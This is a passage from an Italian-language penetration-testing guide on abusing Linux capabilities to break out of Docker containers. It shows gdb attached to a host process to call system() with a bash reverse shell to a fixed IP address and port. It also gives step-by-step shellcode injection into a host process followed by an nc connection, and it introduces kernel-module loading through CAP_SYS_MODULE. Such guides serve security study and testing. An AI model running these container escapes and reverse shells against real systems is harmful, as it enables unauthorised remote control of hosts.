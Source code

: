 **Esempio con ambiente (Docker breakout) - Un altro abuso di gdb**

Se **GDB** è installato (o puoi installarlo con `apk add gdb` o `apt install gdb`, ad esempio) puoi **debuggare un processo dall'host** e farlo chiamare la funzione `system`. (Questa tecnica richiede anche la capacità `SYS_ADMIN`).
```bash
gdb -p 1234
(gdb) call (void)system("ls")
(gdb) call (void)system("sleep 5")
(gdb) call (void)system("bash -c 'bash -i >& /dev/tcp/192.168.115.135/5656 0>&1'")
```
Non sarai in grado di vedere l'output del comando eseguito, ma verrà eseguito da quel processo (quindi ottieni una shell inversa).

{% hint style="warning" %}
Se ricevi l'errore "No symbol "system" in current context.", controlla l'esempio precedente caricando uno shellcode in un programma tramite gdb.
{% endhint %}

**Esempio con ambiente (Docker breakout) - Iniezione di shellcode**

Puoi verificare le capacità abilitate all'interno del container Docker utilizzando:
```bash
capsh --print
Current: = cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_sys_ptrace,cap_mknod,cap_audit_write,cap_setfcap+ep
Bounding set =cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_sys_ptrace,cap_mknod,cap_audit_write,cap_setfcap
Securebits: 00/0x0/1'b0
secure-noroot: no (unlocked)
secure-no-suid-fixup: no (unlocked)
secure-keep-caps: no (unlocked)
uid=0(root)
gid=0(root)
groups=0(root
```
Elencare i **processi** in esecuzione nell'**host** `ps -eaf`

1. Ottenere l'**architettura** `uname -m`
2. Trovare uno **shellcode** per l'architettura ([https://www.exploit-db.com/exploits/41128](https://www.exploit-db.com/exploits/41128))
3. Trovare un **programma** per **iniettare** lo **shellcode** nella memoria di un processo ([https://github.com/0x00pf/0x00sec\_code/blob/master/mem\_inject/infect.c](https://github.com/0x00pf/0x00sec\_code/blob/master/mem\_inject/infect.c))
4. **Modificare** lo **shellcode** all'interno del programma e **compilarlo** `gcc inject.c -o inject`
5. **Iniettarlo** e ottenere la tua **shell**: `./inject 299; nc 172.17.0.1 5600`

## CAP\_SYS\_MODULE

**[`CAP_SYS_MODULE`](https://man7.org/linux/man-pages/man7/capabilities.7.html)** permette a un processo di **caricare e scaricare moduli del kernel (chiamate di sistema `init_module(2)`, `finit_module(2)` e `delete_module(2)`)**, offrendo un accesso diretto alle operazioni principali del kernel. Questa capacità presenta rischi di sicurezza critici, in quanto consente l'escalation dei privilegi e la compromissione totale del sistema, consentendo modifiche al kernel e bypassando tutti i meccanismi di sicurezza di Linux, inclusi i moduli di sicurezza di Linux e l'isolamento dei container.
**Ciò significa che è possibile inserire/rimuovere moduli del kernel nel/dal kernel della macchina host.**
